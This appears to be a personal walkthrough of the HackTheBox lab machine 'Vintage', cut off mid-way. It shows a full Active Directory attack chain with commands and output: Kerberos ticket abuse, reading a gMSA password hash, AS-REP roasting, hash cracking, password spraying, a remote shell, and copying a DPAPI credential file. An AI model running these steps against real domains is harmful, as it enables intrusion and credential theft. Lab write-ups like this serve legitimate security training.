








This is one of the Boxes that took me a week to solve, but the amount of the information that i learned from it is unbelievable 

As always we start our assessment with a port comprehensive scan that reveals the following results :

```bash 
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ sudo nmap -v -sV -sC -O -Pn --disable-arp-ping -p- -o Broad-scan-nmap 10.10.11.45

Nmap scan report for 10.10.11.45
Host is up (0.073s latency).
Not shown: 65517 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-17 03:07:34Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         Microsoft Windows RPC
51973/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (89%)
Aggressive OS guesses: Microsoft Windows Server 2022 (89%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.008 days (since Mon Feb 17 03:57:14 2025)
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-02-17T03:08:34
|_  start_date: N/A
```

As it appears SMB `port :445`, LDAP `port :389` and Kerberos `port :88` are open in the box which indicate that this is a Domains Controller. The results above show the domain under which this Server is `vintage.htb` .

As always i tried running NXC using the provided credentials `P.Rosa`:`Rosaisbest123` and the `DC01.vintage.htb` seems to be the DNS Name of the box, but it seems that it is encountering some issue.  

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ sudo netexec smb 10.10.11.45 -u P.Rosa -p Rosaisbest123    
SMB         10.10.11.45     445    10.10.11.45      [*]  x64 (name:10.10.11.45) (domain:10.10.11.45) (signing:True) (SMBv1:False)
SMB         10.10.11.45     445    10.10.11.45      [-] 10.10.11.45\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ sudo netexec ldap 10.10.11.45 -u P.Rosa -p Rosaisbest123   
LDAP        10.10.11.45     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.45     389    dc01.vintage.htb [-] vintage.htb\P.Rosa:Rosaisbest123 STATUS_NOT_SUPPORTED
```

This took me a lot of time to figure out. i even thought this is some VPN issue or connection problem, so i googled it and i found this [Scrambled vs NetExec](https://gist.github.com/mpgn/9fc08b0f0fde55e8c322518bc1f9c317) for someone encountering the same problem on a different HTB Box, and the `netexec` feedback information is `STATUS_NOT_SUPPORTED`, indicate that NTLM Authentication is disabled.

For that we will resort to Kerberos Authentication, by obtaining a TGT and export it to the  `KRB5CCNAME` environment variable.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getTGT.py vintage.htb/P.Rosa:'Rosaisbest123' -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in P.Rosa.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=P.Rosa.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ klist
Ticket cache: FILE:P.Rosa.ccache
Default principal: P.Rosa@VINTAGE.HTB
Valid starting     Expires            Service principal
03/17/25 03:51:04  03/17/25 13:51:04  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 03/18/25 03:51:04
```

Let's test it out, and it seems to be good!

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ sudo netexec smb dc01.vintage.htb -u P.Rosa -d vintage.htb -k --use-kcache         
SMB         dc01.vintage.htb 445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False)
SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\P.Rosa from ccache 
```

I used `netexec` to enumerate user and computer accounts through the `--rid-kcache` flag, so i saw `gMSA01$` and i immediately though about `ReadGMSAPassword` ACL which is relevant for these service accounts.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ netexec smb dc01.vintage.htb -d vintage.htb -u P.Rosa -k --use-kcache --rid-brute| grep SidTypeUser | cut -d: -f2 | cut -d \\ -f2 | cut -d' ' -f1            
Administrator
Guest
krbtgt
DC01$
gMSA01$
FS01$
M.Rossi
R.Verdi
L.Bianchi
G.Viola
C.Neri
P.Rosa
svc_sql
svc_ldap
svc_ark
C.Neri_adm
L.Bianchi_adm
```

I collected data using `bloodhound-python` and ingest it to `Bloodhound` using the TGT.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage/bloodhound1]
└─# bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -dc dc01.vintage.htb -c All             
INFO: Found AD domain: vintage.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: dc01.vintage.htb
INFO: Found 16 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: FS01.vintage.htb
INFO: Querying computer: dc01.vintage.htb
```


I used this custom Cypher query to get accounts that have Read access of `GMSA01$`'s password, and `Domain Computers` Group have that Right.

```bash
MATCH p=0 [: ReadCMSAPassword] >0 RETURN p
```




`Domain Computers` Group have  `FS01$` as a member, which seems to be a File Server account.




The `FS01$` is part of the `Pre-Windows 2000 Compatible computer Access` Group.





This got me thinking about one [Blog](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts) that i read which say that : `When a new computer account is configured as "Pre-Windows 2000 computer", its password is set based on its name (i.e. lowercase computer name without the trailing `$`). When it isn't, the password is randomly generated.`

So, i tried the `fs01` as a password and it did actually works.

```bash 
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ sudo netexec ldap vintage.htb -u 'FS01$' -p fs01 -k

LDAP        vintage.htb     389    dc01.vintage.htb [*]  x64 (name:dc01.vintage.htb) (domain:vintage.htb) (signing:True) (SMBv1:False)
LDAP        vintage.htb     389    dc01.vintage.htb [+] vintage.htb\FS01$:fs01 
```

I used the `getTGT.py` to generate a ticket to authenticate as `FS01$` and export it to the `KRB5CCNAME` to use it further.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getTGT.py -dc-ip 10.10.11.45 vintage.htb/FS01$:fs01 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in FS01$.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=FS01\$.ccache 
```

Now i will use `bloodyAD` to retrieve the `msDS-ManagedPassword` attribute that contains the GMSA01$ password's NTLM hash.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k get object 'GMSA01$' --attr msDS-ManagedPassword

distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
msDS-ManagedPassword.B64ENCODED: qNZ+qlGD+Cx17DM27SffmeF+2eftJRLCsHfxsLxSzhh2dERzgKmiJzvEHrfEAqstlS64r4Y1OQdu8sdCT6b8+gYXpLDa8xBQIFyshNK7YPrERV3rJVALnhITHE4lKIYoagI4Dr9owAMBGo7ZC4LOoBGk90mk4uuIMHNtylVRWva41F+v2TFCzSNfKnBSVuLhiZ+koEMTCkgP3Z+4Xnnluw6qkD3WPsnsYDlYYizOGPhsUwB1GJyzFHawe4iwfVnbWQdouCgflR27treFO5W0R5RqcRhkwEYLomOobFVUa3kGh1iQNdpaJLPI6Uo4767UM1O/sSaeML8nKVKhwsDolA==
```

Once again i will try get the TGT of the `GMSA01$` using its NTLM hash and export it to the `KRB5CCNAME`.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getTGT.py vintage.htb/'gmsa01$' -hashes :51434c5b357ff89c5f85d994a27f7339 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gmsa01$.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=gmsa01\$.ccache 
```

I got back to `Bloodhound` and it turned out that `GMSA01$` have `GenericWrite` and `AddSelf` ACL on the `SERVICEMANAGERS` Group.



This `Servicemanagers` group have `GenericWrite` on  these 3 service accounts as it seems (`svc_ark`, `svc_ldap` and `svc_sql`)



So i added the `GMSA01$` user account to this group by leveraging the `AddSelf` right using `bloodyAD` again.

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"

[+] P.Rosa added to CN=SERVICEMANAGERS,OU=PRE-MIGRATION,DC=VINTAGE,DC=HTB
```

Since i have `GenericAll` on these accounts i tried to `DONT_REQ_PREAUTH` to their `userAccountControl` attributes.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_ARK -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_ARK's userAccountControl

┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_SQL -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_SQL's userAccountControl

┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac SVC_LDAP -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to SVC_LDAP's userAccountControl
```

I used `GetNPUsers.py` to ASREPROAST these account but we got hashes except for the `svc_sql` which is weird.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ GetNPUsers.py -dc-ip 10.10.11.45 -request -usersfile users.txt vintage.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/ayoub/.local/bin/GetNPUsers.py:150: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
$krb5asrep$23$svc_ldap@VINTAGE.HTB:8935004afc9c3df69eb0a5bc47621d8b$e5eebf50edc698bd3f5e5c09d2775d050799b52e8831a0208d336223e0b74c9955a7857b1abe5688acdc44499e6ef32de5dddb38d60fb2d326bc6e4f65068f2f6c1ba6667359aad9a39dd7e02c2acb8609437143bae142fbdc64bf91f0140be899a0f38a7440c926769fbfabc7827ded393e143106b6a18731eb9456b7a3e41ac4b8865012fc70206a7a73ef0216d1452bfe45bbdc348a1fc26e733e7f8626599981edcba9f57e2c69b084d8a8a6955c2bd552a0f7b2479f3b11c93138bed924d0202fcb76dd7d9fa2f56e6295db55ce1f545f1195985aae0eb7e1b3197f03e68bc825017568e5ef6a23
$krb5asrep$23$svc_ark@VINTAGE.HTB:aaa9f68a14fd7e389d65ffa9be7f6a5e$ebe016f470e83e0976cdca9250bf63015b67b4c8aafef4dd15c302f69fbb68cd47623cb559ce38ad202993edca154960e7f6ec8a28be9506502ad1e8f3b4df9996ac41db60fa02442adcf07b5483d0b068ef4beb983fa0f9b0a059bd884be6c6b409ea070a5e605e096ec88f8e9efeeb8f6434ce9df9d27c4deca383a4c688a7a8e8c916c32c8901057a3204d2e75b8117676bf35de1324d8442d3cd801613056d940f3e1eed4fb7c8c085d16a60e42e7d6496fec559e5e530eaa898da11c158144dcc524de67c9bd511c600a01f04801910be17c5620eec9bfd80208b3bd4009cc00e87601a71532af9
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

I checked the `userAccountControl` of all account and it seems that the `svc_sql` is disabled as it have `ACCOUNTDISABLE` .

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" --kerberos --dc-ip 10.10.11.45 -k get search  --filter "(objectClass=user)" --attr userAccountControl


<SNIP>


distinguishedName: CN=svc_sql,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH

distinguishedName: CN=svc_ldap,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH

distinguishedName: CN=svc_ark,OU=Pre-Migration,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD; DONT_REQ_PREAUTH

distinguishedName: CN=C.Neri_adm,CN=Users,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD

distinguishedName: CN=L.Bianchi_adm,CN=Users,DC=vintage,DC=htb
userAccountControl: NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD                              
```

So i enabled it using `bloodyAD` 

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
```

I retried again and it succeed this time !

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ GetNPUsers.py -dc-ip 10.10.11.45 -request -usersfile users.txt vintage.htb/                                                                              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/home/ayoub/.local/bin/GetNPUsers.py:150: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gMSA01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User FS01$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User M.Rossi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User R.Verdi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User G.Viola doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User C.Neri doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User P.Rosa doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc_sql@VINTAGE.HTB:e9d5b32940352f3bf4114333d1930da0$29a8e947b96a344e92180206c1ae5c51db3f0010ebfb984e6bd10492e2474a7e0a45092b804851ad968d2149846d777e1ce5cc590fff164ae11a16eb605892cd97e92f141fe173a6e18ceee689e1ace5da268f43991f185bc55cde86289872307ad44e9b8d3301062563af6d9d24c4fb0796103dad11ef11e4057d9123f45d86c7e14096e611a50f51bb51027278484545694cd54671d9dd41fe89df741bf3d01a01606f9f5e57341e1d64d4f28b5a6dfa70b44889762f8794be2ce5cbb6aeaf2a767011ad0dc46360bd52a22e1de87ac741d41150bcfd97ed64394b947808e19f7a779991a517c44fb7
$krb5asrep$23$svc_ldap@VINTAGE.HTB:90958306658dd10b4c019c56ef39fe1e$ce6a47b7f4337142af32290cd30a37be714d54c6d956bd9af3254e361a222a844be5985b55295f3cdbb2a9e245fd7d1b80e18fcd4d09dc0c4393a7d664a6d6d9cfc8ea51b24163cb60f372bf7f71c4cea2d73f5df40fff74ea106e0e0cd2cd23e59ca884b61c2a42e69a364752020e5575a0a60274850921bc8e731c1324fb6e07b32e1b3fabed928521599f749694b69bbae00d9e703140c329be90c73c457cf98fc0e128a969308227857aacc8f361c3e40ba519c4018c855cf8f734005d4e8a5ab0e94d3c265e390258d40ec80bb3848ea31cd13fa8069ee25f893bbcf353a90b8aba75d6bcf9d24c
$krb5asrep$23$svc_ark@VINTAGE.HTB:b95d1f54813715a9fc875f1940d5cab6$ca10e91db21c4dea427b67a1226434ea1797350c9e0c7067940526248caca9b64ed9739cbdc059946da19f040ba43654166dc0d474b9d3beeb4ba56de6c457d5c53dcb2464a360b87770ec3c4de29495725c481836dd6c56fda373080cfe41eb56ef895091799ea02759feb49066ef4259672cb913c383ef6ae96b45d65c6109b9c60c89589b450d6b645f97088d99ecc7bee735173b120099188b07ca410e7f27c7871b33c5684a7f565bb03dfea7e3794d572a1e874ab82dc40726ad999a5fa0a65aae731e6f13af160e14c74c3d1a6f6ce5d75eb4ad537f7f82301bc9e687b80407ec023c9f9d5df4
[-] User C.Neri_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User L.Bianchi_adm doesn't have UF_DONT_REQUIRE_PREAUTH set
```

I tried cracking these hashes using `hashcat` but only `svc_sql` end up being crackable and the password is `Zer0the0ne`.

```Powershell
C:\Windows\hashcat-6.2.6>hashcat.exe -m 18200 C:\Users\razio\Desktop\hash.txt 


<SNIP>

Dictionary cache hit:
* Filename..: C:\Users\razio\Desktop\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$svc_sql@VINTAGE.HTB:e9d5b32940352f3bf4114333d1930da0$29a8e947b96a344e92180206c1ae5c51db3f0010ebfb984e6bd10492e2474a7e0a45092b804851ad968d2149846d777e1ce5cc590fff164ae11a16eb605892cd97e92f141fe173a6e18ceee689e1ace5da268f43991f185bc55cde86289872307ad44e9b8d3301062563af6d9d24c4fb0796103dad11ef11e4057d9123f45d86c7e14096e611a50f51bb51027278484545694cd54671d9dd41fe89df741bf3d01a01606f9f5e57341e1d64d4f28b5a6dfa70b44889762f8794be2ce5cbb6aeaf2a767011ad0dc46360bd52a22e1de87ac741d41150bcfd97ed64394b947808e19f7a779991a517c44fb7:Zer0the0ne
```

As always, once getting a new password i perform a password spraying using `kerbrute` on the rest of the accounts and check for password reuse. And it seems that `C.Neri` has the same password.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ kerbrute passwordspray -d vintage.htb --dc 10.10.11.45 ./users.txt 'Zer0the0ne'


    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 03/17/25 - Ronnie Flathers @ropnop

2025/03/17 23:50:27 >  Using KDC(s):
2025/03/17 23:50:27 >  	10.10.11.45:88

2025/03/17 23:50:28 >  [+] VALID LOGIN:	C.Neri@vintage.htb:Zer0the0ne
2025/03/17 23:50:28 >  Done! Tested 17 logins (1 successes) in 0.606 seconds
```

Once again i will get back to `Bloodhound` and see what we can do with this account. And `C.Neri` has `canPSRemote` to the `DC01`.



Next thing i will do is get a TGT for this account and export it to the `KRB5CCNAME`.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ getTGT.py vintage.htb/c.neri:Zer0the0ne -dc-ip vintage.htb 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri.ccache
```

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ export KRB5CCNAME=c.neri.ccache  
```

Then i will connect to the DC using `evil-winrm` using the `-r` flag.
And we retrieved the user's flag.




```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Vintage]
└─$ evil-winrm -i dc01.vintage.htb -r 'vintage.htb'

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> type user.txt
8853092457944387a12897bef73bc3e8
*Evil-WinRM* PS C:\Users\C.Neri\Desktop> 

```


After a long time enumerating for any kind of privesc vectors either in `Bloodhound` or using the shell i got, i finally found this hidden file which indicates the presence of Credentials protected using `DPAPI`, which i downloaded on my local machine.

```PowerShell
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> mv C4BB96844A5C9DD45D5B6A9859252BA6 C:\Users\c.neri\Desktop

*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials> dir C:\Users\c.neri\Desktop

    Directory: C:\Users\c.neri\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          6/7/2024   1:17 PM           2312 Microsoft Edge.lnk
-ar---         3/17/2025  12:02 PM             34 user.txt

*Evil-WinRM* PS C:\Users\c.neri\Desktop> attrib -h -s C4BB96844A5C9DD45D5B6A9859252BA6
*Evil-WinRM* PS C:\Users\c.neri\Desktop> download C4BB96844A5C9DD45D5B6A9859252BA6

Info: Downloading C:\Users\c.neri\Desktop\C4BB96844A5C9DD45D5B6A9859252BA6 to C4BB96844A5C9DD45D5B6A9859252BA6
                                        
Info: Download successful!
```

For now we still need the keys to decrypt these potential credentials. and for that we went to the `Protect` directory where keys usually are found, and we found this directory with an `SID` name.

```PowerShell
*Evil-WinRM* PS C:\Users\c.neri\Desktop> cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect
*Evil-WinRM* PS C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect> dir


